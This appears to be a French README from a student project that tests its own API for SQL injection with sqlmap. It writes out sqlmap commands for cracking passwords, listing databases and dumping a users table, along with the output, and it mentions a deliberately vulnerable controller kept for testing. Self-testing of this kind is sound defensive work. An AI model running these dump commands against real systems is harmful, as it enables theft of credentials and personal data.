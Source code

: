# Testes d'Injections SQL avec sqlmap

Ce projet a pour but de tester les vulnérabilités d'injections SQL dans différents endpoints d'une API. Les tests sont effectués à l'aide de l'outil `sqlmap`.

## Configuration

- **Level** : 4
- **Risk** : 2
- **Threads** : 10
- **Token** : Authorization token nécessaire pour l'API

## Prérequis

Assurez-vous que `sqlmap` est installé et que vous avez les permissions nécessaires pour exécuter les tests. Placez le script dans le répertoire de `sqlmap`.

### Model et controller testés

Par soucis de sécurité, le model utilisé ainsi que son controller, ont été déplacer du backend, dans le dossier actuel, `SQL injection`. Pour effectuer ces testes, copier coller les fichiers dans leur dossier respectifs dans le backend. 

## Script Python

Le script permet de tester plusieurs méthodes HTTP pour différents endpoints vulnérables. Le script est dans le fichier security\SQL injection\vulnerableController.py


## Exemples de Commandes et Résultats

### Tests sur un contrôleur, communiquant avec une BDD sans Hibernate (ORM)

- Commande : `python sqlmap.py -u {urls["vulnerable"]} {header} --passwords`
  - Résultat :
    ```
    [16:41:32] [INFO] cracked password 'admin' for user 'admin_tauri'
    [16:41:39] [INFO] cracked password 'root' for user 'root'
    [16:41:41] [INFO] cracked password 'root' for user 'root'
    ```

- Commande : `python sqlmap.py -u {urls["vulnerable"]} {header} --dbs`
  - Résultat :
    ```
    [16:44:17] [INFO] fetching database names
    available databases [9]:
    [*] clashofclan
    [*] entreprise
    [*] information_schema
    [*] javaee
    [*] kebabs
    [*] mysql
    [*] performance_schema
    [*] sys
    [*] tauri
    ```

- Commande : `python sqlmap.py -u {urls["vulnerable"]} {header} --tables -D tauri`
  - Résultat :
    ```
    [19:47:26] [INFO] fetching tables for database: 'tauri'
    Database: tauri
    [17 tables]
    +---------------------+
    | bonuses             |
    | comments            |
    | flags               |
    | grade_types         |
    | grades              |
    | notifications       |
    | permissions         |
    | presentation_orders |
    | projects            |
    | roles               |
    | sprints             |
    | students            |
    | teams               |
    | users               |
    | validation_bonuses  |
    | validation_flags    |
    | victims             |
    +---------------------+
    ```

- Commande : `python sqlmap.py -u {urls["vulnerable"]} {header} --dump -T users -D tauri`
  - Résultat :
    ```
    [19:49:07] [INFO] fetching entries for table 'users' in database 'tauri'
    Database: tauri
    Table: users
    [4 entries]
    +----+---------------+------------------+----------+-------------+
    | id | email         | name             | password | private_key |
    +----+---------------+------------------+----------+-------------+
    | 1  | p.l@tauri.com | WOODWARD Richard | <blank>  | <blank>     |
    | 2  | s.s@tauri.com | CLAVREUL Michael | <blank>  | <blank>     |
    | 3  | o.l@tauri.com | ROUSSEAU Sophie  | <blank>  | <blank>     |
    | 4  | t.c@tauri.com | Technique Coach  | <blank>  | <blank>     |
    +----+---------------+------------------+----------+-------------+
    ```

### Tests sur un contrôleur, communiquant avec une BDD avec Hibernate (ORM)

- Commande : `python sqlmap.py -u {urls["sprints"]} {header} --passwords`
  - Résultat :
    ```
    [19:55:33] [WARNING] GET parameter 'id' does not seem to be injectable
    ```

- Commande : `python sqlmap.py -u {urls["sprints"]} {header} --dbs`
  - Résultat :
    ```
    [19:57:11] [WARNING] GET parameter 'id' does not seem to be injectable
    ```

- Commande : `python sqlmap.py -u {urls["sprints"]} {header} --tables -D tauri`
  - Résultat :
    ```
    [19:57:54] [WARNING] GET parameter 'id' does not seem to be injectable
    ```

- Commande : `python sqlmap.py -u {urls["sprints"]} {header} --dump -T users -D tauri`
  - Résultat :
    ```
    [19:59:08] [WARNING] GET parameter 'id' does not seem to be injectable
    ```

## Conclusion

Ce projet démontre l'utilisation de `sqlmap` pour identifier et exploiter les vulnérabilités d'injection SQL dans une API. Les résultats montrent la différence entre des endpoints vulnérables et ceux protégés par des ORM comme Hibernate.
Etant donnée que la partie "Testes d'injection SQL" n'est pas demandée par le client, et par durée de mise en place, ces testes n'ont pas été effecutés sur l'ensemble des controllers. Cependant, ceux tester, utilisent l'ORM de la même façon que les autres. Donc si aucune faille n'a été trouvée, on peut supposer que cela est de même pour les autres.
